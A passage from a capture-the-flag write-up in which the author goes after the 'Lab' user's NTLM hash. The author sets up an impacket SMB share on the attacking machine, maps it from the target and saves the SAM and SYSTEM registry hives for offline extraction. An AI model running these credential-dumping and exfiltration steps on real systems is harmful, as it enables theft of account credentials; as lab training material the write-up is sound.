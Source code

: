 ### "Lab" User's NTLM Hash:

Now normally this would be all that we need in a CTF, but this box is also asking for the NTLM hash of the user 'Lab' - Lets track that down.

I would normally use Mimikatz for a task like this, but was having a hard time getting it to work properly. This is a really old target, and I'm not entirely too sure what the issue was.

Either way, it reinforces how important it is to know several ways to get the job done. Lets 'live off the land' a bit more so to speak and dump the SAM and SYSTEM files back to our machine.

Firstly I'll need to set up an SMB server on my attacking machine:

```text
impacket-smbserver ryan .
```
Then on the target I can run:

```text
net use * \\10.6.61.45\ryan
```
We can confirm now that the machines are connected:

![server.png](../assets/blueprint_assets/server.png)

Now we just need to prepare the desired files:

```text
C:\Users\Administrator\Desktop>reg save hklm\sam SAM
reg save hklm\sam SAM
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save hklm\system SYSTEM
reg save hklm\system SYSTEM
The operation completed successfully.
```
